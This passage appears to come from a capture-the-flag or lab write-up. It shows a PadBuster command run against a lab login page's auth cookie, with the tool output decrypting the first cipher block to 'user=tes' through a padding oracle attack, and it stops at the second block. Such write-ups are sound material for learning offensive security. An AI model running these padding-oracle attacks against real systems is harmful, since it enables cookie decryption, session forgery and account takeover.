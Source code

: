 
    padbuster http://10.10.10.18/login.php E050Yqtgn8a3V%2B%2F%2BR%2FbO6K8idG81xf2L 8 --cookie auth=E050Yqtgn8a3V%2B%2F%2BR%2FbO6K8idG81xf2L --encoding 0


    +-------------------------------------------+
    | PadBuster - v0.3.3                        |
    | Brian Holyfield - Gotham Digital Science  |
    | labs@gdssecurity.com                      |
    +-------------------------------------------+
    
    INFO: The original request returned the following
    [+] Status: 200
    [+] Location: N/A
    [+] Content Length: 1486
    
    INFO: Starting PadBuster Decrypt Mode
    *** Starting Block 1 of 2 ***
    
    INFO: No error string was provided...starting response analysis
    
    *** Response Analysis Complete ***
    
    The following response signatures were returned:
    
    -------------------------------------------------------
    ID#     Freq    Status  Length  Location
    -------------------------------------------------------
    1       1       200     1564    N/A
    2 **    255     200     15      N/A
    -------------------------------------------------------
    
    Enter an ID that matches the error condition
    NOTE: The ID# marked with ** is recommended : 2
    
    Continuing test with selection 2
    
    [+] Success: (76/256) [Byte 8]
    [+] Success: (8/256) [Byte 7]
    [+] Success: (233/256) [Byte 6]
    [+] Success: (110/256) [Byte 5]
    [+] Success: (235/256) [Byte 4]
    [+] Success: (233/256) [Byte 3]
    [+] Success: (198/256) [Byte 2]
    [+] Success: (146/256) [Byte 1]
    
    Block 1 Results:
    [+] Cipher Text (HEX): b757effe47f6cee8
    [+] Intermediate Bytes (HEX): 663d11109614fab5
    [+] Plain Text: user=tes
    
    Use of uninitialized value $plainTextBytes in concatenation (.) or string at /usr/bin/padbuster line 361, <STDIN> line 1.
    *** Starting Block 2 of 2 ***
    